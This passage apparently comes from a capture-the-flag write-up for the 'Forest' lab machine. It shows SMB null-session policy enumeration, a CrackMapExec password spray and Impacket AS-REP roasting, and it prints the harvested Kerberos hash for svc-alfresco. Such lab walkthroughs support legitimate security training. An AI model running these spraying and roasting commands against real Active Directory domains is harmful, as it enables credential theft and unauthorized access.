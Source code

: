 The mutated list has almost 150.000 passwords, so filtering out the unique ones and every string that has more than 7 characters:
```
cat pwlist_mutated_v1.list | sort -u | awk 'length($0) > 7' > pwlist_v3.list
```

Now it has almost 40.000 passwords which is still a lot, but the chances are high that a valid password is in there.

The **Password Spraying** will be attempted with **CrackMapExec**.
As **SMB Null Authentication** works as the RPC service showed, it is possible to get the password policy:
```
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```
```
Minimum password length: 7
Password history length: 24
Maximum password age: 41 days 23 hours 53 minutes
Minimum password age: 1 day 4 minutes
Reset Account Lockout Counter: 30 minutes
Locked Account Duration: 30 minutes
Account Lockout Threshold: None
Forced Log off Time: Not Set
```

There is no _Lockout Threshold_ so Brute-Forcing will not lock out any accounts.

Starting the Password Spray:
```
crackmapexec smb 10.10.10.161 -u forest_userlist.ldap -p pwlist_v3.list
```

Unfortunately none of the passwords are valid for any of the users.

## AS-REP Roasting

We can try to attempt different Active Directory attacks with the **Impacket scripts**.
The script _Get-NPNUsers_ queries the target domain for users with _"Do not require Kerberos preauthentication"_ set and export their TGTs for cracking.
This attack is called **AS-REP Roasting**.
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'
```

It is successful and outputs the **AS-REP hash information** of the service user _svc-alfresco_;
```
Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-02-13 16:15:40.427629  2019-09-23 13:09:47.931194  0x410200
```
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:790b8f3c728fcfae85b1965944f957d9$713406134831aaf8bbdfb56a8e98b8731552d1ce0c5a3a78a80ff97d9711876bb3504d91b53ea0a5d09c506b2d606d8f4201c40a9d84ff581a9baebed94ab5777ced3e2990099aae726a8845af03e71313952c80e5fc3d74758c855f147a899deb453b04e8aa5ce3e30d3f12afb35795b8bfe8e351fbbfc3b68c1bc5f9b7d8af78d3373a44cf073073778d9098ad23344c1296e1414d2bd4c3f290937169f01d6fc2ba652b24f91354143313a1b5dbd4b2626649bb04be10381ad7cae19b80ef6b5968b631b562617a644fd02c14e49e1f26e3c2f1de6164bd6523f73c763262fa958b30711f
```
